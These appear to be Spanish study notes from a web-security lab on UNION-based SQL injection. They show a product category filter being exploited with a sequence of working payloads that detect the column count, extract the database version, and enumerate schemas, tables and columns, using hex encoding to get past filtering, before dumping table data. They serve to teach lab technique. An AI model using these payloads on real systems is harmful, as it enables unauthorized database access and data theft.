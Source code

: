 En esta clase aplicamos una inyección SQL con UNION para extraer la versión del motor de base de datos, esta vez sobre sistemas como MySQL o Microsoft SQL Server.

La vulnerabilidad está en el filtro de categoría de productos. Al interceptar la solicitud y modificar el parámetro ‘category’, podemos inyectar una consulta adicional que devuelva el valor del sistema.

El proceso consiste en:

- Interceptar la solicitud con Burp Suite y probar distintas combinaciones hasta determinar el número de columnas que devuelve la consulta y cuáles aceptan texto. En este caso, son dos columnas de texto.
- Una vez identificadas, se usa la función ‘**@@version**‘, propia de MySQL y SQL Server, para extraer información del motor y su versión.
- El símbolo ‘**#**‘ se utiliza como comentario para anular el resto de la consulta original.

Esta técnica demuestra cómo, con una inyección bien construida, es posible reconocer el entorno sin necesidad de credenciales o acceso especial.

**Quédate con esto**: Conocer el motor de base de datos desde fuera es el primer paso para afinar futuras inyecciones y adaptar payloads según el sistema objetivo.

![Pasted image 20250702150520.png](imagenes/Pasted image 20250702150520.png)
Solucion
Primero visualizar cuantas columnas hay ' order by (el numero de mayor a menor)
![Pasted image 20250702151029.png](imagenes/Pasted image 20250702151029.png)
luego toca jugar con union select para visualizar la version ' union select 1,@@version-- -
![Pasted image 20250702151254.png](imagenes/Pasted image 20250702151254.png)
despues para enumerar las bases de datos ponemos lo siguiente ' union select 1,schema_name from information_schema.schemata-- -
![Pasted image 20250702151806.png](imagenes/Pasted image 20250702151806.png)
en caso de que diera error es por que puede ser que tenga mucha informacion por lo que tenemos que poner limites
' union select 1,schema_name from information_schema.schemata limit 0,1-- - y tocaria jugar con el primer numero para que nos empiece a enumerar las BD (importante en esto se hiso con pets necesitamos quitarlo para que iterara por todos los pots)
![Pasted image 20250702152205.png](imagenes/Pasted image 20250702152205.png)
y para enumerar las tablas en una unica base de datos ' union select NULL,group_concat(schema_name) from information_schema.schemata-- - y modificamos con group concat para que no la mueste todas y quitar limit
![Pasted image 20250702153247.png](imagenes/Pasted image 20250702153247.png)
entonces para mostrar todas las tablas lo mejor seria utilizar un peticion con GET
![Pasted image 20250702153757.png](imagenes/Pasted image 20250702153757.png)y para que sea para una BD en especifico ponemos lo siguiente ' union select NULL,table_name from information_schema.tables where table_schema="academy_labs"-- -
![Pasted image 20250702154236.png](imagenes/Pasted image 20250702154236.png)
en caso de que no funcione por temas de sanitizacion podemos probar con la cadena en hexadecimal
![Pasted image 20250702154431.png](imagenes/Pasted image 20250702154431.png)
y esto lo ponemos siempre poniendo primero 0x (0x61636164656d795f6c616273) obtenemos el mismo resultado
![Pasted image 20250702154810.png](imagenes/Pasted image 20250702154810.png)
ahora si quisieramos enumerar las columnas ' union select NULL,column_name from information_schema.columns where table_schema=0x61636164656d795f6c616273 and table_name='products'-- -
![Pasted image 20250702155107.png](imagenes/Pasted image 20250702155107.png)
En caso de que no mostrar todos los datos hay que jugar con group_concat
' union select NULL,group_concat(column_name) from information_schema.columns where table_schema=0x61636164656d795f6c616273 and table_name='products'-- -
![Pasted image 20250702155401.png](imagenes/Pasted image 20250702155401.png)
y para mostar los datos de la tabla ' union select NULL,group_concat(category,':') from academy_labs.products-- -
![Pasted image 20250702160100.png](imagenes/Pasted image 20250702160100.png)
